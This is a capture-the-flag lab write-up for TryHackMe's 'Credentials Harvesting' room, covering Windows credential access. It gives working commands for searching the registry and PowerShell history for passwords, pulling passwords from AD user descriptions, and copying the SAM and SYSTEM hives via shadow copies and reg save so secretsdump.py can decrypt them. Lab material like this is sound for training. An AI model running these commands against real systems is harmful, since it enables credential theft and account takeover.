 # Credentials Harvesting

**Room Link:** [https://tryhackme.com/room/credharvesting](https://tryhackme.com/room/credharvesting)

## Credential Access



### Clear-text files

As an example of a history command, a PowerShell saves executed PowerShell commands in a history file in a user profile in the following path:&#x20;

```
C:\Users\USER\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

It might be worth checking what users are working on or finding sensitive information. Another example would be finding interesting information. For example, the following command is to look for the "password" keyword in the Window registry.

**Victim(cmd)**

```
reg query HKLM /f password /t REG_SZ /s
OR
reg query HKCU /f password /t REG_SZ /s
```



**Use the methods shown in this task to search through the Windows registry for an entry called "flag" which contains a password. What is the password?**

**Victim(cmd)**

```
reg query HKLM /f password /t REG_SZ /s > results.txt
findstr "flag" results.txt
```

<figure><img src="../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>



**Enumerate the AD environment we provided. What is the password of the victim user found in the description section?**

**Victim(cmd)**

```
powershell
Get-ADUser -Filter * -Properties * | select Name,SamAccountName,Description
```

<figure><img src="../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

## Local Windows Credentials

The SAM is a Microsoft Windows database that contains local account information such as usernames and passwords. The SAM database stores these details in an encrypted format to make them harder to be retrieved. Moreover, it can not be read and accessed by any users while the Windows operating system is running. However, there are various ways and attacks to dump the content of the SAM database.&#x20;

First, ensure you have deployed the provided VM and then confirm we are not able to copy or read  the `c:\Windows\System32\config\sam` file:

**Victim(cmd)**

```
type c:\Windows\System32\config\sam
copy c:\Windows\System32\config\sam C:\Users\thm\Desktop\ 
```

<figure><img src="../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

## Metasploit's HashDump

The first method is using the built-in Metasploit Framework feature, hashdump, to get a copy of the content of the SAM database. The Metasploit framework uses in-memory code injection to the LSASS.exe process to dump copy hashes. For more information about hashdump, you can visit the [rapid7 ](https://www.rapid7.com/blog/post/2010/01/01/safe-reliable-hash-dumping/)blog. We will discuss dumping credentials directly from the LSASS.exe process in another task!



## Volume Shadow Copy Service

The other approach uses the Microsoft Volume shadow copy service, which helps perform a volume backup while applications read/write on volumes. You can visit the [Microsoft documentation page](https://docs.microsoft.com/en-us/windows-server/storage/file-server/volume-shadow-copy-service) for more information about the service.

More specifically, we will be using wmic to create a shadow volume copy. This has to be done through the command prompt with administrator privileges as follows,

1. Run the standard cmd.exe prompt with administrator privileges.
2. Execute the wmic command to create a copy shadow of C: drive
3. Verify the creation from step 2 is available.
4. Copy the SAM database from the volume we created in step 2

Now let's apply what we discussed above and run the cmd.exe with administrator privileges. Then execute the following wmic command:

**Victim(cmd)**

```
wmic shadowcopy call create Volume='C:\'
```

<figure><img src="../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

Once the command is successfully executed, let's use the `vssadmin`, Volume Shadow Copy Service administrative command-line tool, to list and confirm that we have a shadow copy of the `C:` volume.&#x20;

**Victim(cmd)**

```
vssadmin list shadows
```

<figure><img src="../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

The output shows that we have successfully created a shadow copy volume of (C:) with the following path: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1.

As mentioned previously, the SAM database is encrypted either with RC4 or AES encryption algorithms. In order to decrypt it, we need a decryption key which is also stored in the files system in c:\Windows\System32\Config\system.

Now let's copy both files (sam and system) from the shadow copy volume we generated to the desktop as follows,

**Victim(cmd)**

```
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\sam C:\Users\thm\Desktop\sam
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\system C:\Users\thm\Desktop\system
```

Now we have both required files, transfer them to the AttackBox with your favourite method (SCP should work).

## Registry Hives

Another possible method for dumping the SAM database content is through the Windows Registry. Windows registry also stores a copy of some of the SAM database contents to be used by Windows services. Luckily, we can save the value of the Windows registry using the reg.exe tool. As previously mentioned, we need two files to decrypt the SAM database's content. Ensure you run the command prompt with Administrator privileges.

**Victim(cmd)**

```
reg save HKLM\sam C:\users\thm\Desktop\sam-reg
reg save HKLM\system C:\users\thm\Desktop\system-reg
```

Let's this time decrypt it using one of the Impacket tools: `secretsdump.py`, which is already installed in the AttackBox. The Impacket SecretsDump script extracts credentials from a system locally and remotely using different techniques.

Move both SAM and system files to the AttackBox and run the following command:

**Kali - not yet done**

```
python3.9 /opt/impacket/examples/secretsdump.py -sam /tmp/sam-reg -system /tmp/system-reg LOCAL
```
